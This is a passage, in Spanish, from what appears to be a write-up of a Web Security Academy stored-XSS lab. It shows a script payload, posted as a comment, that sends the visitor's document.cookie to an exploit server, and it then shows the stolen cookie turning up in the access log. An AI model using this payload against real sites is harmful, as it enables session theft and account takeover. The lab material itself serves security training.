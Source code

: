 ```html
<script>document.location = 'https://ac7c1f021e27dd52807d874e0145004b.web-security-academy.net/exploit/'+document.cookie</script>
```

Entonces creamos un nuevo comentario con el payload definitivo.

![](img57.png)

Y enviamos el comentario. Ahora en el Exploit Server, vamos a la seccion que dice: **access log** en la parte inferior.

![](img58.png)

Y como podemos ver, encontramos una consulta que contiene una cookie.
